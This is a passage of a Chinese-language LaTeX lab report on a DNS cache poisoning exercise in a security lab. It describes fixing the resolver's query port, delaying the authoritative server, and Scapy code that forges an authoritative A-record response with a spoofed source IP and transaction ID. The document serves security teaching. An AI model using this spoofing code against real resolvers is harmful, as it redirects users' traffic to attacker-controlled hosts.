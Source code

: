 首先在 Attacker 上查询 \texttt{test.seclab.online} 的 NS 记录，并进一步查询权威服务器名称的 A 记录。实验记录显示，该域名的权威服务器为 \texttt{ns1.test.seclab.online}，其地址为 \texttt{198.51.100.53}。构造伪造响应时，使用该地址作为 DNS 响应的源 IP，使伪造报文与递归服务器正在等待的权威服务器应答相对应，如图~\ref{fig:task1-authority-query} 所示。


为使攻击脚本能够匹配递归服务器发出的查询报文，在递归 DNS 的 BIND9 配置中将对外查询的 UDP 源端口固定为 \texttt{10001}。配置项如下：

\begin{samepage}
\begin{lstlisting}[language=bash,caption={递归 DNS 固定查询源端口的配置}]
// 固定递归 DNS 对外查询时使用的 UDP 源端口
query-source port 10001;
\end{lstlisting}
\end{samepage}

配置文件截图如图~\ref{fig:task1-fixed-port} 所示。实验还在权威 DNS 所连接的网络接口上设置了 \texttt{1500ms} 的传输延迟，以延长递归服务器等待权威应答的时间窗口；相应的实验命令如图~\ref{fig:task1-authority-delay} 所示。


\subsection{构造伪造 DNS 响应}

攻击目标为 \texttt{test.seclab.online}，伪造的 A 记录将其指向代理 Web 的地址 \texttt{192.168.5.80}。Scapy 构造的 DNS 资源记录包含目标域名、A 记录类型和伪造地址，运行结果如图~\ref{fig:task1-fake-record} 所示。攻击脚本中与报文构造相关的核心代码如下：

\begin{samepage}
\begin{lstlisting}[language=Python,caption={构造伪造 DNS 响应报文的关键代码}]
# 伪造 A 记录，将实验域名指向代理 Web
fake_rr = DNSRR(
    rrname=VICTIM_DOMAIN,
    type=1,
    ttl=FAKE_TTL,
    rdata=FAKE_IP,
)

# 设置伪造权威应答的以太网、IP 和 UDP 字段
packet_base = (
    Ether(src=get_if_hwaddr(INTERFACE), dst=RESOLVER_MAC)
    / IP(src=AUTHORITATIVE_IP, dst=LOCAL_DNS_IP)
    / UDP(sport=AUTHORITATIVE_PORT, dport=LOCAL_DNS_PORT)
)

# 使用候选 TXID，并保留与查询相同的域名问题
dns_layer = DNS(
    id=txid,
    qr=1,
    aa=1,
    qd=DNSQR(qname=VICTIM_DOMAIN),
    ancount=1,
    an=fake_rr,
)
# 组合各协议层，得到待发送的伪造响应
dns_packet = packet_base / dns_layer
\end{lstlisting}
\end{samepage}

